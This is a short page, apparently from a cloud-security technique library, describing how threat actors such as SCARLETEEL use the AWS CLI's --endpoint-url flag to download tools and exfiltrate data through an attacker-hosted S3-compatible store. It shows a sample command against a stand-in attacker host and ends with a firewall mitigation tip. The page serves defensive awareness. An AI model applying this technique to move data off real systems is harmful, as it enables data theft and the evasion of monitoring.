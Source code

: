 ```yaml
---
author_name: Nick Frichette
title: Download Tools and Exfiltrate Data with the AWS CLI
description: Using the AWS CLI as a LOLScript to download and exfiltrate data.
hide:
  - toc
---
```


<div class="grid cards" markdown>

-   :material-alert-decagram:{ .lg .middle } __Technique seen in the wild__

    ---

    Reference: [SCARLETEEL 2.0: Fargate, Kubernetes, and Crypto](https://sysdig.com/blog/scarleteel-2-0/)

</div>

In an attempt to be stealthy, threat actors will often "[live off the land](https://github.com/LOLBAS-Project/LOLBAS)", using tools and scripts already existing on a host machine outside of their intended purpose. This can help them avoid detection by blending in with their surroundings.

In AWS environments, it is common to find servers which have the AWS CLI installed (It is included by [default](https://docs.aws.amazon.com/cli/v1/userguide/install-linux-al2017.html) in Amazon Linux). This makes it an excellent choice for adversaries to move data around, avoiding more common tools like [curl](https://curl.se/) or [Wget](https://www.gnu.org/software/wget/) which may be monitored for suspicious uses.

As seen in the wild by the [SCARLETEEL](https://sysdig.com/blog/scarleteel-2-0/) threat actor, the AWS CLI can be used to download and exfiltrate data using an attacker-hosted backend. You can host an S3 compatible object store such as [MinIO](https://min.io/) and then use the `--endpoint-url` flag to interact with that service. This makes it easy to download tools, exfiltrate compromised data and more.

```shell
$ aws s3 ls --endpoint-url https://attacker.s3.store
2023-07-13 02:06:30 criminalbucket
2023-07-13 22:01:36 exfiltrated-data
```

!!! Tip
    As mentioned by [Jesse Lepich](https://www.linkedin.com/feed/update/urn:li:activity:7085273463359176704?commentUrn=urn%3Ali%3Acomment%3A%28activity%3A7085273463359176704%2C7085302479327805441%29), a layer 7 firewall like the [AWS Network Firewall](https://aws.amazon.com/network-firewall/) can be used to limit access to non-allowlisted domains.